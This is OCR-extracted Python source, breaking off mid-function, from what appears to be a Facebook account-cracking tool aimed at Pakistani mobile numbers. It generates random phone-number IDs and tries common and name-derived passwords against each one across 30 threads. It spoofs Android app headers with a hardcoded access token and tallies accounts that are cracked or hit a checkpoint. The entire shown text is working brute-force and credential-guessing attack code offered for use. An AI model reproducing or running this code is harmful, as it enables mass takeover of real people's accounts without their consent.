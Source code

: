                         
        except requests.exceptions.ConnectionError:
                print('\n NO INTERNET CONNECTION ...')
                exit()
def pak():
                user=[]
                clear()
                print('\033[1;31m CODE EXAMPLE : 0306,0315,0335,0345')
                code = input('\033[1;37m PUT CODE: ')
                try:
                        limit = int(input('\033[1;31m EXAMPLE : 2000, 3000, 5000, 10000\n\033[1;37m PUT LIMIT : '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as TRT:     
                        clear()
                        
                        tl = str(len(user))
                        print('[+] Total accounts: \033[1;97m'+tl)
                        print('[+] Select code: \033[1;97m '+code)
                        print('[+] Process has been started \033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','malik123','kingkhan','baloch123','pak123','khan123']
                                TRT.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' THE PROCESS HAS COMPLETED')
                print(' TOTAL OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' PRESS ENTER TO BACK ')
                os.system('python uami.py')
#------
def ffb(ids,names,passlist):
        try:
                global ok,loop,sim_id
                sys.stdout.write('\r\r\033[1;37m [USMII-RUNING] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                fn = names.split(' ')[0]
                try:
                        ln = names.split(' ')[1]
                except:
                        ln = fn
                for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'